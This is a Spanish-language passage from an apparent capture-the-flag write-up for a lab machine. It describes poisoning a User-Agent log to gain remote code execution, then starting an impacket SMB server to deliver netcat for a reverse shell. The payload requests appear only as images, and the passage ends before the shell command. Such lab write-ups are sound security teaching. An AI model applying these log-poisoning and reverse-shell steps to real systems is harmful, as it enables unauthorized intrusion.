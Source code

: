 ¿Está guardando un log? Miré si se guardaba en /log y para mi sorpresa...

![](/assets/images/Bart/img4.png)

Vemos un log que guarda el user agent,  viendo la petición de Burp podemos observar que podemos poner el nombre del archivo. Hicé la siguiente petición.

![](/assets/images/Bart/img5.png)

Probamos si el archivo se ha creado.

![](/assets/images/Bart/img6.png)

Tenemos RCE, ahora me quiero establecer una revshell. Para eso me montaré un servidor SMB y accederé a el para llamar al binario de netcat.

```bash
❯ impacket-smbserver compartido . -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
